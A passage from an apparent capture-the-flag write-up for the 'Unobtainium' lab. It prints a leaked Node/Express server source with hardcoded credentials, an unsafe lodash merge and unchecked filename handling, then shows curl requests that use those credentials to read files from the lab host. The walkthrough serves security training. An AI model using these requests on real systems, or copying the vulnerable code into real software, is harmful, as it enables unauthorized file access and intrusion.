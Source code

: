     {"ok":true,"content":"var root = require(\"google-cloudstorage-commands\");\nconst express = require('express');\nconst { exec } = require(\"child_process\");     \nconst bodyParser = require('body-parser');     \nconst _ = require('lodash');                                                                  \nconst app = express();\nvar fs = require('fs');\n                                                                                              \nconst users = [                                                                               \n  {name: 'felamos', password: 'Winter2021'},\n  {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true},      \n];\n\nlet messages = [];                             \nlet lastId = 1;                                \n                                                                                              \nfunction findUser(auth) {                                                                     \n  return users.find((u) =>                                                                    \n    u.name === auth.name &&                                                                   \n    u.password === auth.password);                                                            \n}                                    \n                                               \napp.use(bodyParser.json());                                                                   \n                                               \napp.get('/', (req, res) => {                   \n  res.send(messages);                                                                         \n});                                                                                           \n                                                                                              \napp.put('/', (req, res) => {   \n  const user = findUser(req.body.auth || {});                                                 \n                                               \n  if (!user) {                                 \n    res.status(403).send({ok: false, error: 'Access denied'});                                \n    return;\n  }\n\n  const message = {\n    icon: '__',\n  };\n\n  _.merge(message, req.body.message, {\n    id: lastId++,\n    timestamp: Date.now(),\n    userName: user.name,\n  });\n\n  messages.push(message);\n  res.send({ok: true});\n});\n\napp.delete('/', (req, res) => {\n  const user = findUser(req.body.auth || {});\n\n  if (!user || !user.canDelete) {\n    res.status(403).send({ok: false, error: 'Access denied'});\n    return;\n  }\n\n  messages = messages.filter((m) => m.id !== req.body.messageId);\n  res.send({ok: true});\n});\napp.post('/upload', (req, res) => {\n  const user = findUser(req.body.auth || {});\n  if (!user || !user.canUpload) {\n    res.status(403).send({ok: false, error: 'Access denied'});\n    return;\n  }\n\n\n  filename = req.body.filename;\n  root.upload(\"./\",filename, true);\n  res.send({ok: true, Uploaded_File: filename});\n});\n\napp.post('/todo', (req, res) => {\n\tconst user = findUser(req.body.auth || {});\n\tif (!user) {\n\t\tres.status(403).send({ok: false, error: 'Access denied'});\n\t\treturn;\n\t}\n\n\tfilename = req.body.filename;\n        testFolder = \"/usr/src/app\";\n        fs.readdirSync(testFolder).forEach(file => {\n                if (file.indexOf(filename) > -1) {\n                        var buffer = fs.readFileSync(filename).toString();\n                        res.send({ok: true, content: buffer});\n                }\n        });\n});\n\napp.listen(3000);\nconsole.log('Listening on port 3000...');\n"}
    

The formatting is a mess, but I’ll use `jq` to pull the string in `content`
and print it raw (`-r`):

    
    
    oxdf@parrot$ curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}' | jq -r '.content'
    var root = require("google-cloudstorage-commands");
    const express = require('express');                              
    const { exec } = require("child_process");     
    const bodyParser = require('body-parser')
    ...[snip]...
    oxdf@parrot$ curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}' | jq -r '.content' > index.js
    
